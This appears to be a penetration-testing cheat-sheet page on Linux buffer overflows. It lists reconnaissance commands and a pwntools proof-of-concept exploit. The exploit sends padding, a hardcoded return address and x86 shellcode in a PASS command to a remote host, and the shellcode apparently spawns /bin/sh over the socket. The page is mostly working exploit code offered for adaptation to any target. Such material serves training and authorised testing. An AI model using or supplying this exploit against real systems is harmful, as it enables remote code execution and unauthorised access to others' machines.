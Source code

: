 ```yaml
---
icon: bomb
---
```


# Buffer Overflow - Linux

```bash
#Look for strcmp()
ltrace
strace

#Look for ASLR = 0
cat /proc/sys/kernel/randomize_va_space

#Generate Characters
cyclic 300

#Check for binary protection
checksec

#Enumerate addresses
ldd

```

{% hint style="danger" %}
### <mark style="color:purple;">`POC`</mark>

* <mark style="color:purple;">Make sure to adapt the</mark> <mark style="color:orange;">**`buffer size`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`return address`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`IP/PORT`**</mark> <mark style="color:purple;">to the current scenario:</mark>

```python
from pwn import *

shellcode = (
  b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6\x31\xc9\x56\x5b\x6a\x3f\x58"
   b"\xcd\x80\x41\x80\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6\x56\x68\x2f"
   b"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
)

payload = b"A" * 28 + p32(0xffffd630) + shellcode # Change this


r = remote('10.10.10.34', 7411) # Change this


print(r.recv(1024).decode())  
r.sendline(b'USER admin')    
print(r.recv(1024).decode())  
r.sendline(b'PASS ' + payload)  
r.interactive()  
```
{% endhint %}
